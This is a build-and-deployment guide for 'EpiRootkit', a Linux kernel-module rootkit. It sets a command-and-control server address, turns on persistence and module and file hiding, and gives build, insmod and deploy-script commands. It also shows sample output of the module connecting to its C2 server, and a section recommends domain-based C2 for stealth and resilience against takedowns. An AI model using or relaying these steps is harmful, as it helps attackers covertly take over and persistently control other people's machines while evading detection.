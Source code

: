 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Configuration

Edit `rootkit/core/config.h` before building:

```c
// Option 1: Domain name (recommended)
#define C2_SERVER_ADDRESS "jules-c2.example.com"
#define C2_SERVER_PORT 4444

// Option 2: IP address (traditional)
#define C2_SERVER_ADDRESS "192.168.64.1"
#define C2_SERVER_PORT 4444

// Feature settings
#define ENABLE_ENCRYPTION 0      // Encryption disabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_MODULE_HIDING 1   // Hide module by default
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Build Process

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created

# Verify build
ls -la epirootkit.ko
file epirootkit.ko
# epirootkit.ko: ELF 64-bit LSB relocatable, x86-64
```

## Deployment

### Method 1: Deployment Script (Recommended)
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.example.com

# Deploy with IP address
sudo ./deploy_rootkit.sh address=192.168.1.100 port=4444

# Deploy with defaults from config.h
sudo ./deploy_rootkit.sh
```

**What it does:**
1. Validates module and root privileges
2. Deploys to `/lib/modules/$(uname -r)/extra/`
3. Sets up autoload via `/etc/modules-load.d/`
4. Updates dependencies with `depmod -a`
5. Loads module immediately
6. Verifies deployment

### Method 2: Manual Loading
```bash
# Load with domain
sudo insmod epirootkit.ko address=c2.example.com port=443

# Load with IP
sudo insmod epirootkit.ko address=192.168.1.100 port=4444

# Load with defaults
sudo insmod epirootkit.ko
```

## Verification

### Check Loading
```bash
# Check if loaded (may be hidden if stealth enabled)
lsmod | grep epirootkit

# Alternative check if module is hidden
ls -la /sys/module/epirootkit

# Check kernel messages
dmesg | tail -10
```

### Expected Output (Domain)
```bash
dmesg | tail -10
# [  123.456] EpiRootkit: Starting initialization (v1.0.0)
# [  123.457] EpiRootkit: Module parameters: address=c2.example.com port=443
# [  123.462] EpiRootkit: Attempting connection to c2.example.com:443
# [  123.463] EpiRootkit: Resolving domain: c2.example.com
# [  123.464] EpiRootkit: Resolved c2.example.com to 203.0.113.42
# [  123.465] EpiRootkit: Connected to C2 server c2.example.com:443
```

### Expected Output (IP)
```bash
dmesg | tail -10
# [  123.456] EpiRootkit: Starting initialization (v1.0.0)
# [  123.457] EpiRootkit: Module parameters: address=192.168.64.1 port=4444
# [  123.462] EpiRootkit: Attempting connection to 192.168.64.1:4444
# [  123.463] EpiRootkit: Connected to C2 server 192.168.64.1:4444
```

## DNS Resolution Feature

### How It Works
1. **Parameter parsing**: Detects if address is domain or IP
2. **IP validation**: Uses `in4_pton()` to check IP format
3. **DNS resolution**: Uses kernel-space DNS resolver via 8.8.8.8
4. **Connection**: Establishes TCP to resolved IP

### Domain Support Benefits
- **Dynamic infrastructure**: Easy C2 server changes
- **Load balancing**: DNS can rotate between servers
- **Stealth**: Less suspicious than hardcoded IPs
- **Resilience**: Backup domains in case of takedowns

## Management Commands

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Module Status: LOADED
# Location: /lib/modules/5.4.0-74-generic/extra/epirootkit.ko
# Autoload: ENABLED (/etc/modules-load.d/epirootkit.conf)
# Connection: CONNECTED (c2.example.com:443)
```

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# ✓ Module unloaded
# ✓ Autoload disabled
# ✓ Module file removed
# ✓ Dependencies updated
```

### Update Module
```bash
# Rebuild and redeploy
make clean && make
sudo ./deploy_rootkit.sh update
# ✓ Module updated and reloaded
```
